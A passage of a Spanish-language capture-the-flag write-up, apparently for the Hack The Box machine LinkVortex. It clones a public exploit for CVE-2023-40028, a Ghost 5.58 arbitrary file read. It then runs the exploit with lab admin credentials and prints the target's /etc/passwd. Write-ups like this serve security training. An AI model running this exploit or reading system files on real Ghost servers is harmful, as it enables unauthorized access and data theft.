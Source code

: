 {% embed url="https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028" %}

Procederemos a clonarnos el repositorio en nuestro equipo atacante.

```bash
❯ git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028; cd Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028
Clonando en 'Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028'...
remote: Enumerating objects: 20, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 20 (delta 3), reused 9 (delta 2), pack-reused 0 (from 0)
Recibiendo objetos: 100% (20/20), 8.38 KiB | 1.67 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
```

Revisaremos el funcionamiento del exploit desde el mismo repositorio de GitHub.

<figure><img src="../../.gitbook/assets/imagen (91).png" alt=""><figcaption></figcaption></figure>

Al verificar como funciona el exploit, procederemos a explotar la vulnerabilidad y verificamos que hemos logrado leer el archivo `/etc/passwd`.

```bash
❯ ./CVE-2023-40028 -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45' -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```
